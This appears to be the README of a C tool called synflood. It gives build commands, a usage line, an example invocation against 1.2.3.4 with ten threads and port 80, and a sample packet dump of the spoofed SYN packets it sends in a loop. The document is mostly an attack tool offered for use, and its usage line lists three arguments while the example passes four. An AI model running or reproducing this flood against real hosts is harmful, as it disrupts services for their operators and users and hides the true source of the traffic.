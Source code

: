 # synflood
SYN flood denial-of-service (DoS) attack coded in C using raw sockets. Generates random spoofed IPs at each new packet.

## Build

`make clean` <br>
`make`

## Usage

`sudo ./synflood <target_ip_address> <payload> <number_of_threads>`

## Example

`sudo ./synflood 1.2.3.4 OWNED 10 80`

Will create 10 threads which will send the following TCP/IP packet in loop:

```
***********************TCP Packet*************************

Ethernet Header
   |-Destination Address : XX-XX-XX-XX-XX-XX
   |-Source Address      : XX-XX-XX-XX-XX-XX  
   |-Protocol            : 8

IP Header
   |-IP Version        : 4
   |-IP Header Length  : 5 DWORDS or 20 Bytes
   |-Type Of Service   : 0
   |-IP Total Length   : 54  Bytes(Size of Packet)
   |-Identification    : 6082
   |-TTL               : 255
   |-Protocol          : 6
   |-Checksum          : 55149
   |-Source IP         : xxx.xxx.xxx.xxx
   |-Destination IP    : 1.2.3.4

TCP Header
   |-Source Port          : 28659
   |-Destination Port     : 80
   |-Sequence Number      : 0
   |-Acknowledge Number   : 0
   |-Header Length        : 5 DWORDS or 20 BYTES
   |-Urgent Flag          : 0
   |-Acknowledgement Flag : 0
   |-Push Flag            : 0
   |-Reset Flag           : 0
   |-Synchronise Flag     : 1
   |-Finish Flag          : 0
   |-Window               : 5840
   |-Checksum             : 41290
   |-Urgent Pointer       : 0

                        DATA Dump                         
Data Payload
    4F 57 4E 45 44 00 00 00 00 00 00 00 00 00               OWNED.........
```

